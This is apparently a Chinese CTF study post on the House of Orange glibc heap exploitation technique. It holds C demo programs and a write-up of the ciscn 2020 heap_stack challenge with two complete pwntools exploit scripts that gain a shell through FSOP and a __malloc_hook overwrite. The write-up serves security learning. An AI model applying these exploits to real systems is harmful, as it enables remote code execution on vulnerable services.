


## House Of Orange

本质：Unsorted bin attack 和 FSOP造成的组合漏洞利用方式。

House of orange源于一道题目，有时候只用到free top chunk的题目也会被归入该类中。


#### glibc版本<=2.23情况

**特点：不需要free操作**


核心原理：

**1，获取unsorted bin**

在`_int_malloc`函数中，会依次检验 fastbin、small bins、unsorted bin、large bins 是否可以满足分配要求，因为尺寸问题这些都不符合。接下来`_int_malloc`函数会试图使用 top chunk，在这里 top chunk 也不能满足分配的要求，则执行 sysmalloc 来向系统申请更多的空间。**这时top_chunk会被放入unsorted bin中（ top chunk size 满足一定条件）。**

由于top chunk size一般会很大，一般采用直接伪造其大小，具体伪造的原理参考wiki，https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/house_of_orange-zh/，这里这里只给出伪造的 top chunk size 的要求

- 伪造的 size 必须要对齐到内存页

- size 要大于 MINSIZE(0x10)
- size 要小于之后申请的 chunk size + MINSIZE(0x10)
- size 的 prev inuse 位必须为 1

演示程序

```c
#include<stdio.h>
#include<stdlib.h>
#define fake_size 0x1fe1
int main(void)
{
    void *ptr;
	int i;
    ptr=malloc(0x10);
    ptr=(void *)((int)ptr+24);
    *((long long*)ptr)=fake_size;
	malloc(0x2000);
    malloc(0x60);
}
```

    fake_size 可以是 0x0fe1、0x1fe1、0x2fe1、0x3fe1 等对 4kb 对齐的 size，这里选择了0x1fe1。
    
    执行malloc(0x2000)之后的结果，成功使原先top chunk放入了unsorted bin


再次执行malloc(0x60)会从unsorted bin中切出。




并且此时堆地址和libc地址信息都被泄露了，看到有些博客说必须申请large bin大小的chunk才会出现堆泄露，但这里我声请一个小的chunk也可以实现泄露，暂时存疑。


**2，Unsorted Bin Attack**

Unsorted Bin Attack的原理不再赘述，其结果是修改任意地址变成一个大数字（这里这个数字就是unsorted bin的地址）。这里这个被修改的是_IO_list_all指针，这里使他指向unsorted bin。

**3，FSOP**

这里\_IO\_list\_all指向unsorted bin的地址。


演示代码

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int winner ( char *ptr);
int main()
{
    char *p1, *p2;
    size_t io_list_all, *top;
    p1 = malloc(0x400-16);
    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;
    p2 = malloc(0x1000);
    io_list_all = top[2] + 0x9a8;  //get real addr of io_list_all
    top[3] = io_list_all - 0x10;  //unsorted bin->bk = io_list_all - 0x10
    memcpy( ( char *) top, "/bin/sh\x00", 8); //fake_file->_flags
    top[1] = 0x61;  //fake_size
    FILE *fp = (FILE *) top;  
    fp->_mode = 0; // top+0xc0
    fp->_IO_write_base = (char *) 2; // top+0x20
    fp->_IO_write_ptr = (char *) 3; // top+0x28
    size_t *jump_table = &top[12]; // controlled memory
    jump_table[3] = (size_t) &winner;
    *(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top+0xd8
    malloc(10);
    return 0;
}

int winner(char *ptr)
{ 
    system(ptr);
    return 0;
}
```


执行malloc(10)前，对unsorted bin的伪造


注：这里fake_size为0x61是因为_chain在FILE结构体中偏移量是0x68


**补充：GDB提供了格式化输出显示结构体的选项，set print pretty off， 这个选项的默认是关闭的。打开该选项set print pretty on再次打印结构体，结果如下：我TM直接就快乐了**


执行malloc(10)后\_IO\_list\_all指向了unsorted bin头节点的位置，此时smallbin[4]里放的就是我们之前魔改过的被放入unsorted bin的chunk了，并且正好偏移量0x60，这也就是为什么伪造fake_size为0x61。


malloc(10)的过程：伪造的unsorted bin脱链进入对应的small bin，并且通过unsorted bin attack使\_IO\_list\_all指向了unsorted bin的头结点========>程序异常========>进行\_IO\_flush\_all\_lockp========>第一个FILE结构\_mode异常未能触发\_IO\_OVERFLOW========>遍历到第二个FILE结构成功触发利用。


**注：这里的触发具有一定概率，1/2的可能性，具体1/2如何得出尚待考证。这里给出angelboy的一张截图。**


最后触发system("/bin/sh")的流程

```
__libc_malloc => malloc_printerr => __libc_message => abort => _IO_flush_all_lockp
```

栈回溯


效果图：程序打印异常后成功getshell


#### 例1 ciscn 2020 华东北分区赛 heap_stack

最经典的例题就是 hitcon-2016-houseoforange，但感觉那个稍微复杂一点，有一些别的东西参杂在里面，这道heap_stack相对来说作为例题来看更加清楚。

保护机制




main函数逻辑，思路比较清晰，没有free函数

```c
void __fastcall main(__int64 a1, char **a2, char **a3)
{
  init_clear();
  puts("######## HEAPSTACK ########");
  while ( 1 )
  {
    menu();
    getNum();
    switch ( choice )
    {
      case 1u:
        push();
        break;
      case 2u:
        puuuuuush();
        break;
      case 3u:
        pop();
        break;
      case 4u:
        show();
        break;
      case 5u:
        exit(0);
        return;
      default:
        puts("bad choice!\n");
        break;
    }
  }
}
```

push函数

```c
unsigned __int64 push()
{
  __int64 nbytes; // ST00_8
  size_t size; // ST08_8
  void *buf; // ST10_8
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  if ( note_num[0] <= 9 )
  {
    puts("size?");
    nbytes = getNum();
    size = nbytes & 0xFFF;
    buf = malloc(size);
    puts("content?");
    read(0, buf, nbytes);
    printf("Malloc at  %p.\n", buf, nbytes, size);
    notes[note_num[0]] = buf;
    ++note_num[0];
  }
  return __readfsqword(0x28u) ^ v4;
}
```

puuuuuush函数

```c
unsigned __int64 puuuuuush()
{
  __int64 size; // ST08_8
  void *buf; // ST10_8
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  if ( puuuuuush_time && note_num[0] <= 9 )
  {
    puts("size?");
    size = getNum();
    buf = malloc(size);
    puts("content?");
    read(0, buf, size);
    printf("Malloc at  %p.\n", buf, size, size);
    notes[note_num[0]] = buf;
    ++note_num[0];
    --puuuuuush_time;
  }
  return __readfsqword(0x28u) ^ v3;
}
```

pop函数

```c
unsigned __int64 pop()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  if ( note_num[0] )
    --note_num[0];
  return __readfsqword(0x28u) ^ v1;
}
```

show函数

```c
unsigned __int64 show()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  if ( show_time )
  {
    write(1, notes[note_num[0] - 1], 8uLL);
    --show_time;
  }
  return __readfsqword(0x28u) ^ v1;
}
```

- push函数存在堆溢出问题申请0x1010的堆，实际得到0x20大小的chunk，并且可以写入0x1010个字节，并且它泄露了堆地址
- puuuuuush函数属于不存在溢出的声请，这里可以用来声请大小>0x1000的chunk
- pop函数是是直接实现note_num--
- show函数只能用一次，那么必然是泄露libcbase用


这里思路相对简单，直接给出exp

```c
from pwn import *
context.update(arch='amd64',os='linux',timeout=1)
context.log_level='debug'
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
def push1(size,content):
	p.sendlineafter('>> ','1')
	p.sendlineafter('size?',str(size))
	p.sendafter('content?',content)	
def push2(size,content):
	p.sendlineafter('>> ','2')
	p.sendlineafter('size?',str(size))
	p.sendafter('content?',content)	
def pop():
	p.sendlineafter('>> ','3')
def show():
	p.sendlineafter('>> ','4')

def pr(a,addr):
	log.success(a+'===>'+hex(addr))

def hack():
	push1(0x1010,'\x00'*0x18+p64(0xfe1))
	p.recvuntil('Malloc at  ')
	heapbase = int(p.recvuntil('.')[:-1],16) - 0x10
	push2(0x2000,'\x00')
	push1(0x10,'\x78')
	show()
	leak = u64(p.recv(8))
	libcbase =  leak - (0x7fbec8029178 - 0x7fbec7c64000)
	_IO_list_all = libcbase + libc.sym['_IO_list_all']
	system = libcbase + libc.sym['system']
	pr('heapbase',heapbase)
	pr('libcbase',libcbase)
	pr('_IO_list_all',_IO_list_all)
	pr('system',system)

	fake_vtable_addr = heapbase + 0x60 + 0xd8 + 8
	unsortedbin = '\x00'*0x10 + '/bin/sh\x00'+p64(0x61)
	unsortedbin += p64(0xdeadbeef) + p64(_IO_list_all - 0x10)
	unsortedbin += p64(0) + p64(1)
	unsortedbin = unsortedbin.ljust(0x10+0xd8,'\x00') + p64(fake_vtable_addr)
	fake_vtable = p64(0)*3 + p64(system)
	payload = unsortedbin + fake_vtable

	push1(0x1010,payload)
	p.sendlineafter('>> ','1')
	p.sendlineafter('size?','16')

	#gdb.attach(p)
	p.interactive()

while True:
	try:
		global p
		p = process('./heap_stack')
		hack()
		#break
		
	except:
		p.close()
		print 'trying...'
```


另外一种思路 house of lore + house of force

```python
#!/usr/bin/python
#coding:utf-8
from pwn import *
context.log_level='debug'
context.update(arch='amd64',os='linux',timeout=1)
io=process("./heap_stack")
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
def push(size,ct='a'):
	io.sendlineafter(">> ",'1')
	io.sendlineafter("size?\n",str(size))
	io.sendafter("content?\n",ct)
def puush(size,ct='a'):#1
	io.sendlineafter(">> ",'2')
	io.sendlineafter("size?\n",str(size))
	io.sendlineafter("content?\n",ct)
def pop():
	io.sendlineafter(">> ",'3')
def show():#1
	io.sendlineafter(">> ",'4')
def main():
	push(0x1010,'a'*0x10+p64(0)+p64(0xfe1))
	push(0xfe0)
	push(0x1fb0)
	show()
	libc_base=u64(io.recv(8))-0x3c5161+0x600
	log.success("libc_base==>"+hex(libc_base))
	push(0x1010,'a'*0x10+p64(0)+p64(0xffffffffffffffff))
	io.recvuntil("at  ")
	top_chunk=int(io.recv(14),16)+0x10
	log.success("top_chunk==>"+hex(top_chunk))
	malloc_hook=libc_base+0x3c4b10
	realloc=libc_base+0x84710
	ogg=libc_base+[0x45226,0x4527a,0xf0364,0xf1207][1]
	log.success("realloc==>"+hex(realloc))
	puush(malloc_hook - top_chunk -0x30)
	push(0x20,p64(0)+p64(ogg)+p64(realloc+4))
	io.sendlineafter(">> ",'1')
	io.sendlineafter("size?\n",str(0x10))
	#gdb.attach(io,'b *{}'.format(ogg))
	io.interactive()
if __name__=='__main__':
	main()
```